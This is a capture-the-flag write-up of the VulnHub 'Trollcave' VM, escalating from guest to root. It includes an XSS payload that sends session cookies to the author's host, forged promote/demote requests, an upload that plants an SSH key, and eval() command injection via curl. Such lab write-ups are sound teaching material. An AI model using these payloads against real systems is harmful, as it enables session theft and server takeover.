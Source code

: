 # TrollCave

Trollcave is a VM available from [VulnHub](https://www.vulnhub.com/entry/trollcave-12,230/) - a  "vulnerable VM, in the tradition of Vulnhub and infosec wargames in general. You start with a virtual machine which you know nothing about – no usernames, no passwords, just what you can see on the network."

As with many traditional wargaming VMs, your objective is simple: gain access to the root account and retrieve a flag to prove you did it. Although it didn't offer a great many surprises, I found it pretty enjoyable. What follows is a write-up of my experience of trying to exploit this VM. It's not exhaustive documentation - from my understanding, there are more than a couple ways to go about exploiting this VM.

## Getting Started

After importing and setting up the VM on a host-only network and confirming that it had obtained an IP address properly, I was ready to begin poking at it. Knowing nothing about the system or what I was in for, I started with a simple netdiscover to find it on the local network, followed by a quick NMap scan to see which ports are open.

The results were pretty simple: two services accessible to the outside world on ports 22 and 80. After examining the OpenSSH running on port 22 and concluding that I wouldn't find an easy way in there, I proceeded to the webserver. It's a fairly simple community blogging platform running Rails, complete with the kind of humour we've come to expect from CTF challenges ("God himself cannot hack this website. - dragon, site admin"). There's a lot going on here, but very little is accessible without an account - which is problematic, since registration seems to be closed. The first step, then, is to get our hands on one.

## Escalating from Guest User

This challenge relies heavily on its hints, especially in the web app exploitation phase. Pretty much every stage includes some kind of hint in the form of a blog post. Some of them were red herrings (unless I missed something), but I'll cover that later. The interesting tidbit that leads you to your first win is a blog post about password resets by "coderguy", the site developer. He doesn't tell you exactly where to look for the password reset functionality - and there's no links to it anywhere. What he does say, however, is that there is a `password_resets` resource in use.

A little bit of intuition or an understanding of the way Ruby on Rails resources are set up is required here. The resource he's referring to is at `/password_resets/new`. Here we'll find a lovely unauthenticated form that lets us reset the password of any regular user - moderators and admins are out of our grasp, but this was enough for me to reset the password of 'xer', one of the regular members on the site.

## Escalating from Regular Member

While I was doing this challenge, I was very focussed on a particular comment made by King, the site superadmin:

`I promise to read every blog restricted to my access level, no matter how creepy. `

See, every user has the ability to create blogs, and every blog has an access level. Regular users only have access levels 0 and 1; which are "everyone can see it" and "only members can see it", respectively. King has an access level of 5, but a regular user can't create a blog at that level - not even by fiddling with the POST parameters, as I found out. In the end, making a level 5 blog and performing a client-side attack wasn't the answer, but it kept me going for a good while.

Either way, the next step for me was to get one of those fancy moderator accounts. Besides King, one other user had dropped a hint about monitoring the website - "cooldude89", a Moderator user. He had created a thread about politics and religion, and promised to constantly watch it to make sure no trolls derail the debate. Taking this as an invitation for a client side attack, I set about searching for XSS.

Although there is a rudimentary WAF in place, circumventing it didn't take much. The `<script>` tag is filtered out of any post or comment, but all you need to do is include an attribute (i.e. `<script id=test>`) and it will go through. After some tinkering, I deduced that the session cookie is not protected in any way, and that stealing it will let you hijack a user's session - even if they click the logout button. To that end, I crafted the following XSS injection:

`<SCRIPT id=test>document.write('<img src="http://192.168.56.1/collect.gif?cookie=' + document.cookie + '" />')</SCRIPT>`

All I needed on the backend was a simple little Python script to collect the cookies being sent to my IP address. My assumption was correct - the page was being periodically accessed by cooldude89, and I shortly harvested his cookie and used it to log in as him. Now as moderator, I was able to set my sights on a higher prized.

## Escalating from Moderator

Above the role of moderator, there were two roles I didn't yet have access to: admin and superadmin. Once again, the blogs provided a valuable hint. This time, it came in the form of a blog post visible only to moderators that documents a "promote" functionality. Basically, any moderator can "promote" any regular member into a moderator. This is handy for escalating xer into a mod so I don't have to modify a cookie every time I want to log in, but it doesn't help me get to admin... or does it?

When you promote someone to moderator, a POST request is made to a URI that looks something like `/users/12/mod`. After you've promoted them, the "mod" button goes away. This stops you from promoting someone who has already been promoted - but what if you just replay the POST request? By making a request to promote someone who is already a moderator, it is possible to promote them into an admin. The only catch is that you can't do it to yourself - so I promoted xer into a mod, then an admin.

## Escalating from Admin

Only one hurdle remains: the superadmin account. There is only one superadmin: King. As before, Trollcave has a hint for us. I had suspected that the file upload functionality - which is disabled - would eventually be how I got code execution. This was all but confirmed by an admin-only post which indicated that it was disabled due to "security concerns", and that only the superadmin could enable it. Another admin-only blog post informed us that King has quit to "find himself", and that dragon has taken his account - so we need to escalate laterally to his account. Whoever has King has access to the file upload functionality, which is the way in.

So, we need to get from one admin account to another. Luckily, the client-side validation on the "promote" functionality comes to the rescue again. There is an "unmod" button which removes admin or moderator status, and can be abused in a similar way to the "mod" button. Using this, I was able to demote dragon down to a regular user, then reset his password. I could have promoted him back up to admin, but it wasn't necessary in the end - his "access" to the King account comes in the form of a message in his inbox containing King's password.

Armed with the password, I was able to log in to King.

## Getting Shell Access

Obviously, the first thing I did as King was to re-enable the file upload functionality. The second was to look at the blogs for any new hints. Unsurprisingly, I found one:

`hey man, if i'm going to be doing much more work on the site i'm really going to need sudo access. also i don't know how good an idea it is for me to be using the rails user interactively, maybe we oughta separate that`

This could be useful in the future, but first we need to see just what we can do with the file upload function. As it turns out, it's pretty trivial to exploit - you can specify any path accessible to the web application, and your file will be uploaded there. So if you enter `/var/www/public/test.txt`, a file will be written there. You don't even need the usual directory traversal tricks. Trying to write a file to somewhere you don't have access to simply results in a generic rails 500 error.

Once again, some intuition is required. We know there is a `rails` user, and we can deduce that's who the webserver is running as. So getting shell access is as simple as writing our public key to `/home/rails/.ssh/authorized_keys`. The only difficult part is guessing that it's possible to do that in the first place. There may be other routes to getting generic code execution - after all, generic file write is a powerful tool.

Once I had uploaded my public key to the server, I was able to SSH in as the `rails` user.

## Escalating to Root

With SSH access, we are in the endgame. All that is left is to poke around until we find something that will allow us to escalate our privileges. The fact that all the directories in `/home/` are world-readable raised immediate red flags. Most of the home directories are empty, but the `king` user has an interesting file called `calc.js`. This is a node.js that runs locally on port 8888 and performs simple math using the eval() function. To make things even easier, the `child_process` module of node.js is already imported - giving us access to the exec() command. 

Specifically, the code we're interested in looks like this:

```
function calc(pathname, request, query, response)
{
        sum = query.split('=')[1];
        console.log(sum)
        response.writeHead(200, {"Content-Type": "text/plain"});

        response.end(eval(sum).toString());
}
```

It's very simple: whatever gets passed as a GET paramet is fed directly into eval(). If we can get king to run this file, we can probably leverage it for code execution.

As it turned out, we don't need to "get king to run this file" - it's already running. A simple `netstat -antp` revealed that port 8888 is already listening; it's just not accessible to the outside world. That's not a problem for us, though, since we already have SSH access to the server. I confirmed it was working from the `rails` account with a simple curl command:

`curl http://127.0.0.1:8888/calc?sum=5-5`

This returned 0, as we would expect it to. All that is left is to craft an exploit. For whatever reason, I found that it didn't like any spaces in its input, but this was easy enough to circumvent:

```
$ echo "touch /tmp/test.txt" > /tmp/king.sh
$ chmod +x /tmp/king.hs
$ curl "http://127.0.0.1:8888/calc?sum=exec('/tmp/king.sh')"
```

Checking the contents of `/tmp` confirmed that my code had executed. I was able to use `king.sh` to get my public key copied into `/home/king/.ssh/authorized_keys`. This allowed me to login as `king`. Since `king` has passwordless sudo access, this directly enabled me to escalate to root.

Here is the contents of the flag file, for proof:

>! c0db34ce8adaa7c07d064cc1697e3d7cb8aec9d5a0c4809d5a0c4809b6be23044d15379c5

## Afterword
